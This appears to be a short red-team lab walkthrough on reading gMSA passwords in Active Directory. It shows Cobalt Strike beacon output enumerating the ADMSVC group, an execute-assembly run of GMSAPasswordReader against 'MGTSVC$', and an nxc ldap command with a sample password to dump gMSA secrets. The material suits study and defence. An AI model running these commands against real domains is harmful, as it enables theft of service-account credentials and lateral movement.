



## Entry
gMSAs (Group Managed Service Accounts) are special AD accounts designed to provide automatic password management for service accounts on multiple servers. They store their passwords securely in AD.

## Enumerate

We can realized which user || group can read **GMSA** password with bloodhound.


So we can use any member of this group to read GMSA.
```sh
[05/18 22:58:41] beacon> net group ADMSVC
[05/18 22:58:41] [*] Tasked beacon to run net group ADMSVC on localhost
[05/18 22:58:42] [+] host called home, sent: 106227 bytes
[05/18 22:58:44] [+] received output:
Members of ADMSVC on \\localhost:

websvc
Norman.Baxter
Thomas.Powell
```
Nice lets use Thomas.Powell for read this GMSA.

## Attack with Cobalt Strike

I will use [GMSAPasswordReader](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/GMSAPasswordReader.exe) here.

Command to execute:
```sh
execute-assembly /home/elliot/Documents/redteaming/tools/SharpCollection/NetFramework_4.7_Any/GMSAPasswordReader.exe --AccountName "MGTSVC$"
```


and we got it!

## Linux Abuse

GMSA use LDAP protocol btw and **nxc** has great module for this

Command to execute:
```sh
nxc ldap DC.sendai.vl -u 'Thomas.Powell' -p 'Password123!' --gmsa
```


